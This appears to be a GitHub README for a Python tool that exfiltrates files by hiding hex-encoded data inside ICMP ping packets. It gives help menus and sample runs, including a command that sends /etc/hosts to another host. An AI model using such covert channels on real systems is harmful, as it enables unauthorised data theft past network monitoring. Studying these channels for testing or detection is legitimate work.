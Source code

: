 # ICMP-Data-Exfiltration

This program is used to send data over the network inside "ICMP Packets", with the help of the "PING" command.
You can send any type of file over the network between two hosts simply by pinging the destination host.


## Examples of How To Use
The program has two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any icmp packet that are coming towards our host machine, once we start receiving packets
this file will automatically decode the message and print it to the display.

Second file "icmp_sendData.py", with the help of this file we will send the file we want to another host where it is
listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" and the script will automatically 
convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

[!] Usage icmp_exfiltration.py <Interface-Name>                               
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

[!] Usage icmp_sendData.py <IP-Address> <File-Name>                            
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py vmnet8

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we run the "icmp_exfiltration.py" file specifying which interface we want to listen on.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

[+] Trying to send file...

[+] File sent successfully.                        
```
Then from another host we will run the "icmp_sendData.py" and the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

